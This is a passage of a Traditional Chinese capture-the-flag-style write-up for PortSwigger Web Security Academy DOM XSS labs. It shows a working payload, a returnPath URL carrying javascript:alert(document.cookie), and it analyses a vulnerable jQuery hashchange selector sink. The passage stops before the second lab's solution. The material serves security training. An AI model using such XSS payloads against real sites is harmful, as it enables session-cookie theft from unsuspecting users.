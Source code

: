 ```
https://ac6d1f461e264285c0fc03c8006000e4.web-security-academy.net/post?postId=1
```

觀察 `Submit feedback` 的連結會變成 `https://ac6d1f461e264285c0fc03c8006000e4.web-security-academy.net/feedback?returnPath=/post`

```javascript=
$(function() {
    $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
});
```

我們知道在 href 裡面塞 `javascript:alert(1)` 可以 alert

所以
```
https://ac6d1f461e264285c0fc03c8006000e4.web-security-academy.net/feedback?returnPath=javascript:alert(document.cookie)
```

然後按下 Back 就可以噴出餅乾了


## [Lab: DOM XSS in jQuery selector sink using a hashchange event](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event)
### 題目敘述
 This lab contains a DOM-based cross-site scripting vulnerability on the home page. It uses jQuery's $() selector function to auto-scroll to a given post, whose title is passed via the location.hash property.

To solve the lab, deliver an exploit to the victim that calls the print() function in their browser. 

### 題目解釋
在 jQuery 裡面塞 XSS，他不用管句法的完整性，只要有 html 就會執行了

### 解答

看起來可疑的程式碼在這邊
```
$(window).on('hashchange', function(){
var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
if (post) post.get(0).scrollIntoView();
```

直接觀察，使用者可控的地方是 `window.location.hash`，也就是網址最後面的 `#`，例如使用
```
https://ace11fbf1f8f9486c0e1ac8100d700c0.web-security-academy.net/#Procrastination
```

可以直接跳到 `Procrastination` 的區塊，而其中，用上面的例子
```
window.location.hash.slice(1)
```

